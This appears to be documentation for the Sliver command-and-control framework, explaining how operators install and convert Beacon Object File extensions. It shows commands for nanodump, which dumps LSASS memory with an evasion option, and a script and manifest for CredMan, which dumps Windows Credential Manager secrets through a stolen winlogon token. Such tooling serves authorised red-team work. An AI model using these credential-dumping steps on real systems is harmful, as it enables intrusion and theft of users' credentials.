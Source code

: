 ### BOF Extensions
**IMPORTANT:** BOF Extensions are installed per-sliver client, they are not stored on the server. Thus extensions are not shared across operators, each operator must install the extension to use it.
```
sliver > armory install nanodump

[*] Installing extension 'nanodump' (v0.0.5) ... done!

sliver > nanodump -h

A Beacon Object File that creates a minidump of the LSASS process.

Usage:
======
  nanodump [flags] pid dump-name write-file signature

Args:
=====
  pid         int       The PID of the process you want to dump.
  dump-name   string    The name of the dump file.
  write-file  int       1 = write file, 0 = fileless
  signature   string    Signature used for evasion, PMDM = default

Flags:
======
  -h, --help           display help
  -s, --save           Save output to disk
  -t, --timeout int    command timeout in seconds (default: 60)
```

### Converting BOFs to Sliver
To determine the arguments a BOF accepts and their types, you'll need to read `.cna` script that accompanies a given BOF. For example, the [CredMan](https://github.com/sliverarmory/CredManBOF/blob/main/CredMan.cna) `.cna` script is show below:
```
alias CredMan {
	local('$handle $data $args $2');

    if(size(@_) != 3){
        berror($1, "CredMan: not enough arguments,Usage: CredMan [user process id] ");
        return;
    }

    $handle = openf(script_resource("CredMan.o"));
    $data   = readb($handle, -1);
    closef($handle)

    $args = bof_pack($1,"i",$2);

    btask($1, "Running CredMan");


    beacon_inline_execute($1,$data,"go",$args);
}

beacon_command_register(
"CredMan",
"Enables SeTrustedCredManAccess Privilege in a token stolen from winlogon.exe to dump Windows Credential Manager");
```

Looking at the script we can see the BOF requires a single integer argument. The corresponding Sliver `extension.json` file is shown below. Note that BOFs will always rely on the `coff-loader` extension but other kinds of extensions may not. If the `coff-loader` extension is not already installed on your system, it can be installed using `armory install coff-loader`. You can list installed extensions by simply running the `extensions` command with no arguments.
```json
{
  "name": "credman",
  "version": "1.0.0",
  "command_name": "credman",
  "extension_author": "lesnuages",
  "original_author": "jsecu",
  "repo_url": "https://github.com/sliverarmory/CredManBOF",
  "help": "Dump credentials using the CredsBackupCredentials API",
  "long_help": "",
  "depends_on": "coff-loader",
  "entrypoint": "go",
  "files": [
    {
      "os": "windows",
      "arch": "amd64",
      "path": "credman.x64.o"
    },
    {
      "os": "windows",
      "arch": "386",
      "path": "credman.x86.o"
    }
  ],
  "arguments": [
    {
      "name": "pid",
      "desc": "PID of a process started by the target user",
      "type": "int",
      "optional": false
    }
  ]
}
```

